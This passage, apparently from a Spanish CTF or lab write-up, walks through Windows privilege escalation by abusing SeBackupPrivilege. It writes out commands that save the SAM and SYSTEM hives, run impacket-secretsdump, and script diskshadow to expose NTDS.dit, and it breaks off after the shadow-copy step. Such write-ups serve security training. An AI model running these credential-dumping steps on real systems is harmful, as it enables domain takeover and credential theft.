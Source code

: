 Privilegios importantes encontrados:

```
SeBackupPrivilege              Back up files and directories             Enabled
SeRestorePrivilege             Restore files and directories             Enabled
```

Estos privilegios nos permiten leer y escribir cualquier archivo del sistema, incluyendo archivos protegidos.

### Primer Intento: Extracción de SAM (Fallido)

Intentamos extraer los hashes locales guardando los hives SAM y SYSTEM:

```powershell
*Evil-WinRM* PS C:\Users\Caroline.Robinson\desktop> reg save hklm\sam c:\Windows\Tasks\SAM
*Evil-WinRM* PS C:\Users\Caroline.Robinson\desktop> reg save hklm\system c:\Windows\Tasks\SYSTEM
```

Descargamos los archivos y ejecutamos secretsdump:

```bash
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```

Obtuvimos hashes, pero al intentar hacer Pass-the-Hash con el hash del Administrator **no funcionó**. Esto es porque el SAM solo contiene cuentas locales, y necesitamos las cuentas del dominio que están en NTDS.dit.

### Segundo Intento: Extracción de NTDS.dit (Exitoso)

Para extraer el NTDS.dit (la base de datos de Active Directory), necesitamos crear una shadow copy del volumen. Utilizamos la técnica descrita en este artículo: [Windows PrivEsc with SeBackupPrivilege](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960)

#### Creación de Shadow Copy con DiskShadow

Creamos un archivo de script para diskshadow:

```powershell
*Evil-WinRM* PS C:\Users\Caroline.Robinson\desktop> diskshadow /s backup
```

Contenido del script `backup`:

```
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% E:
end backup
```

Salida exitosa:
